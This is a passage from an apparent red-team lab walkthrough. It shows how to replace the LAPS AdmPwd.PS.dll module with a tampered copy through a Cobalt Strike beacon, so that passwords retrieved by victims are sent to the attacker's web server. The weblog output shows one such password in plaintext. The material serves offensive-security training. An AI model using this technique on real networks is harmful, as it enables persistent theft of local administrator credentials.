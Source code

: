 
**Once the modifications are in place, click the&#x20;**_**Compile**_**&#x20;button in the bottom-right of the edit window.** &#x20;

**Then select&#x20;**_**File > Save Module**_**&#x20;to write the changes to disk.  Upload the DLL back to the target to overwrite the existing file:**

```
beacon> upload C:\Users\Attacker\Desktop\AdmPwd.PS.dll
```

**One downside to this tactic is that it will break the digital signature of the DLL, but it will not prevent PowerShell from using it:**

```
beacon> powershell Get-AuthenticodeSignature *.dll

    Directory: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS

SignerCertificate                         Status                                 Path                                  
-----------------                         ------                                 ----                                  
                                          NotSigned                              AdmPwd.PS.dll                         
ABDCA79AF9DD48A0EA702AD45260B3C03093FB4B  Valid                                  AdmPwd.Utils.dll 
```

**As `nlamb` on Workstation 1, grab the LAPS password for a computer:**

```
PS C:\Users\nlamb> Get-AdmPwdPassword -ComputerName sql-2 | fl

ComputerName        : SQL-2
DistinguishedName   : CN=SQL-2,OU=SQL Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io
Password            : VloWch1sc5Hl40
ExpirationTimestamp : 9/17/2022 12:46:28 PM
```

**You should see a corresponding hit in your CS weblog:**

```
09/14 11:49:32 visit (port 80) from: 10.10.122.254
	Request: GET /
	Response: 404 Not Found
	null
	= Form Data=
	computer   = SQL-2
	pass       = VloWch1sc5Hl40
```
